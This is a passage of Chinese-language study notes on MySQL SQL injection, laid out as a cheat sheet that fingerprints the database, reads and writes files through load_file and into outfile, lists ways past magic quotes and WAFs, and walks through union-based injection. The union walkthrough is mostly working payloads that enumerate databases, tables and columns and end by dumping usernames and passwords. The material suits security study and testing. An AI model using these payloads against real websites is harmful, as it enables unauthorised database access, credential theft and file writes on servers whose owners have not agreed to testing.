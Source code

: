 
## Web漏洞

### sql注入漏洞

#### mysql注入
MYSQL5.0 以上版本：自带的数据库名 information_schema
information_schema：存储数据库下的数据库名及表名，列名信息的数据库
information_schema.schemata：记录库名信息的表
information_schema.tables：记录表名信息的表
information_schema.columns：记录列名信息表
获取相关数据：
1、数据库版本-看是否符合 information_schema 查询-version()   -5.5.532
2、数据库用户-看是否符合 ROOT 型注入攻击-user()       -root@localhost
3、当前操作系统-看是否支持大小写或文件路径选择-@@version_compile_os-win
4、数据库名字-为后期猜解指定数据库下的表，列做准备-database()    -syguestbook

load_file('route')  读取文件
union select 1,'x',3 into outfile 'route' 写入文件

**防注入**：
1. 魔术引号（magic_quotes_gpc） //HEX编码或宽字节绕过
2. 内置函数，int等
3. 自定义关键字，select等
4. WAF防护软件：安全狗，宝塔等


##### union联合注入

1.  **判断有无注入点**
老方法：
id=1 and 1=1 limit 0，1 正常
id=1 and 1=2 limit 0，1 错误
id=1 or 1=1 limit 0，1 正常
id=1 or 1=2 limit 0，1 正常

新方法：
id=1alsdfjel 错误
2. **判断字段数**
order by
3. **判断回显点**
union select 1，2，3，4 //要先使原先的查询语句不显示，如id=1 and 1=2 limit 0，1
4. **获取数据**
    - ?id=-1' union select 1,2,database() --+ //数据库名
    - ?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+ //所有数据库
    - ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+ 
    or
    ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+ //指定数据库中表名
    - ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='maoshe' and table_name='admin' --+ //指定数据库，表名的所有字段名
    - ?id=-1' union select 1,2,group_concat(username,password) from users --+ //具体数据
